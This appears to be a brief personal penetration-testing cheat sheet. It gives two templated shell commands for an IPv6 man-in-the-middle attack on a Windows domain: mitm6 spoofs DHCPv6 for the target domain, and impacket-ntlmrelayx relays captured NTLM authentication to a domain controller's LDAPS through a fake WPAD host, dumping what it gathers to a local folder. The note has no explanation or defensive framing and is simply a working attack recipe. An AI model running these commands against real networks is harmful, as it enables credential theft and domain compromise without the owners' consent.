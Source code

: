 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

mitm6

~~~bash
mitm6 -d [domain].[ext]
~~~

~~~bash
impacket-ntlmrelayx -6 -t ldaps://[domain controller ip] -wh nullwpad.[domain].[ext] -l /home/kali/Working/enumeration/mitm6_dump
~~~

